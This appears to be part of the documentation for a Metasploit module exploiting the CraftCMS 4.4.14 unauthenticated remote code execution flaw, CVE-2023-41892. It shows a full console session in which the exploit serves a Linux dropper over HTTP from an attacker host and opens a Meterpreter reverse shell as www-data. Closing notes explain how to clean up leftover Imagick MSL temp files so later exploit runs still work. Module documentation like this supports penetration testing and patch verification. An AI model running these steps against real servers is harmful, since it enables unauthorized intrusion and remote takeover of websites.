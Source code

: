 ```shell
Linux craftcms-vuln-web 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 GNU/Linux
id
uid=501(www-data) gid=20(dialout) groups=20(dialout)```
### CraftCMS 4.4.14 on MacOS Linux Dropper - linux/x64/meterpreter/reverse_tcp
```shell
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set target 2
target => 2
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/bzzA52uoIqWP
[*] Client 192.168.201.25 (Wget/1.21) requested /bzzA52uoIqWP
[*] Sending payload to 192.168.201.25 (Wget/1.21)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[+] Deleted /var/www/html/web/sFQEhvKKcl.php
[+] Deleted /tmp/phpeQPKpy
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.25:51122) at 2023-12-17 12:35:54 +0000
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.16.2
OS           : Debian 11.8 (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
## Limitations
Part of the exploit is the MSL script creation triggered by the Imagick plugin module. These files are created in the directory
set by the `upload_tmp_dir` setting in the `php.ini` file (default `/tmp`). These files are automatically cleaned, but in case of
any failure cleaning these files, do clean them manually otherwise the next exploit session will fail using an outdated MSL file.
These files start with `php` and you can list them with the command `ls php*`.
